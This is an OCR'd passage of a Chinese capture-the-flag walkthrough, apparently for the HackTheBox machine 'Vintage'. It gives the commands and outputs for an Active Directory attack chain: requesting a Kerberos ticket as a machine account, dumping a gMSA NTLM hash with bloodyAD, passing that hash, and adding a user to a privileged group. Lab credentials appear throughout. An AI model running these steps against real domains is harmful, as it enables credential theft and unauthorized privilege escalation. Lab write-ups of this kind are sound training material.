 ## User

使用GetTGT.py：提供密码、hash或aeskey用来请求TGT并且保存为ccache格式

```
└─# impacket-getTGT  -dc-ip 10.10.11.45 vintage.htb/FS01$:fs01
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in FS01$.ccache
```

将环境变量 `KRB5CCNAME` 设置为 `FS01\$.ccache`，以指定 Kerberos 客户端应该使用的缓存文件

```
└─# export KRB5CCNAME=FS01\$.ccache
```

使用bloodyAD与 Active Directory 交互，通过 Kerberos 身份验证，从指定的 Active Directory 域控制器获取名为 `GMSA01$` 的受管服务账户的密码（存储在 `msDS-ManagedPassword` 属性中）

```
└─# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53
msDS-ManagedPassword.B64ENCODED: rbqGzqVFdvxykdQOfIBbURV60BZIq0uuTGQhrt7I1TyP2RA/oEHtUj9GrQGAFahc5XjLHb9RimLD5YXWsF5OiNgZ5SeBM+WrdQIkQPsnm/wZa/GKMx+m6zYXNknGo8teRnCxCinuh22f0Hi6pwpoycKKBWtXin4n8WQXF7gDyGG6l23O9mrmJCFNlGyQ2+75Z1C6DD0jp29nn6WoDq3nhWhv9BdZRkQ7nOkxDU0bFOOKYnSXWMM7SkaXA9S3TQPz86bV9BwYmB/6EfGJd2eHp5wijyIFG4/A+n7iHBfVFcZDN3LhvTKcnnBy5nihhtrMsYh2UMSSN9KEAVQBOAw12g==
```

通过已知的 GMSA 账户哈希值，尝试从 Active Directory 域控制器获取 Kerberos 票证

```
└─# impacket-getTGT vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in GMSA01$.ccache

└─#  export KRB5CCNAME=GMSA01\$.ccache
```

然后将P.Rosa添加到SERVICEMANAGERS，使用GMSA的凭证，然后在生成自己的凭证

```
└─# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"
[+] P.Rosa added to SERVICEMANAGERS

└─# impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123 -dc-ip dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in P.Rosa.ccache

└─#  export KRB5CCNAME=P.Rosa.ccache 
```
